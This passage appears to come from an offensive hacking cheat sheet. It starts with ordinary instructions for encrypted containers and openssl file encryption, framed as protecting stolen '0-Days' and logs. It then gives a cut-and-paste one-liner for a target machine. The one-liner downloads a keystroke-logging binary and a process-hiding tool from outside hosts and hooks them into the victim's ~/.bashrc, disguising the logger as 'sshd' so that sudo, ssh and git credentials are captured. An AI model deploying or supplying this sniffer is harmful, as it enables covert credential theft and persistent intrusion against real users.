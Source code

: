 Mount:

```sh
cryptsetup open /tmp/crypted sec
mount -o nofail,noatime /dev/mapper/sec /mnt/sec
```

Store data in `/mnt/crypted`, then unmount:

```sh
umount /mnt/sec
cryptsetup close sec 
```
<a id="encfs"></a>
**9.ii.b. Linux transportable encrypted filesystems - EncFS**

Create ```.sec``` and store the encrypted data in ```.raw```:
```sh
mkdir .raw .sec
encfs --standard  "${PWD}/.raw" "${PWD}/.sec"
```

unmount:
```sh
fusermount -u .sec
```

<a id="encrypting-file"></a>
**9.iii Encrypting a file**

Encrypt your 0-Days and log files before transfering them - please. (and pick your own password):

```sh
# Encrypt
openssl enc -aes-256-cbc -pbkdf2 -k fOUGsg1BJdXPt0CY4I <input.txt >input.txt.enc
```

```sh
# Decrypt
openssl enc -d -aes-256-cbc -pbkdf2 -k fOUGsg1BJdXPt0CY4I <input.txt.enc >input.txt
```

---
<a id="sniffing"></a>
## 10. Session sniffing and hijaking
<a id="session-sniffing"></a>
**10.i Sniff a user's SHELL session**

A 1-liner for `~/.bashrc` to sniff the user's keystrokes and save them to `~/.config/.pty/.@*`. Useful when not root and needing to capture the sudo/ssh/git credentials of the user. 

Deploy: Cut & paste the following onto the target and follow the instructions:
```sh
command -v bash >/dev/null || { echo "Not found: /bin/bash"; false; } \
&& { mkdir -p ~/.config/.pty 2>/dev/null; :; } \
&& curl -o ~/.config/.pty/pty -fsSL "https://bin.ajam.dev/$(uname -m)/Baseutils/script" \
&& curl -o ~/.config/.pty/ini -fsSL "https://github.com/hackerschoice/zapper/releases/download/v1.1/zapper-stealth-linux-$(uname -m)" \
&& chmod 755 ~/.config/.pty/ini ~/.config/.pty/pty \
&& echo -e '----------\n\e[0;32mSUCCESS\e[0m. Add the following line to \e[0;36m~/.bashrc\e[0m:\e[0;35m' \
&& echo -e '[ -z "$LC_PTY" ] && [ -t0 ] && [[ "$HISTFILE" != *null* ]] && { ~/.config/.pty/ini -h && ~/.config/.pty/pty -V; } &>/dev/null && LC_PTY=1 exec ~/.config/.pty/ini -a "sshd: pts/0" ~/.config/.pty/pty -fqaec "exec -a -bash '"$(command -v bash)"'" -I ~/.config/.pty/.@pty-unix.$$\e[0m'
```
